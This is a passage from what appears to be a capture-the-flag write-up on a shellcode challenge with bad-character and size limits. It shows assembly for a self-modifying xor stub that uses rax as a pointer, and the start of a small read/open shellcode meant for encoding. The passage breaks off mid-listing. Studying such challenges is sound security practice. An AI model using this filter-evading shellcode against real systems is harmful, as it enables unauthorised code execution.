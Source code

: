 Level 5
-------

Of course, level 5 increases the bad char list even further...

```
Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68" and \x40 to \x65 max size 100 bytes.
```

We can no longer use the relative addressing with `lea`, because of the bad chars `0x49` and `0x48`. In fact, I was unable to get the address of the shellcode via any techniques I know. 

I assumed that this shellcode is being executed via a instruction like `call rax`. That means that `rax` would still contain the pointer to the shellcode. If this is the case, we can re-use the value in `rax` as an index to the shellcode and use it to carve out the 'real' shellcode via `xor` instructions. But let's first test this hypothesis. Time to get creative! 

I made a small piece of shellcode that tests this hypothesis:

```
bits 64

default rel

_start:
xor dword [rax+_temp-_start], 0x3d283d28        ; the xor will change the rets to jmp $-2!

nop
nop
nop
nop
nop
nop
nop

_temp:
ret
ret
ret
ret
```

When this code executes, the `xor` instruction should change the `ret` instructions to `jmp $-2`, or infinite loops (this works, because `c3 c3 c3 c3 xor 28 3d 28 3d` translates to `eb fe eb fe`). If `rax` does not point to the shellcode, I might get a SIGSEGV or the code simply exits. 

Compiling it and sending it over, however, makes the program hang! This must means that the `ret`s were changed into `jmp` instructions, proving the hypothesis. We can use `rax` as a pointer to the shellcode! Now, we need to carve out the actual shellcode and execute it. I chose to use the same `xor` strategy. I made the `read/open/read/write` shellcode a lot smaller, managing to bring it down to 31 bytes. It contains bad chars again, but that's okay because I'm gonna encode it anyway:

```
bits 64

_start:

xor rax, rax        ; syscall read
push rax
pop rdi             ; rdi: fd = stdin 
push rsp
pop rsi             ; rsi points to stack, aka a buffer
push byte 127
pop rdx             ; read 127 bytes
syscall

mov al, 2           ; open; because we read less than 128 bytes, the rest of rax/eax/ax/ah will contain zeroes.
```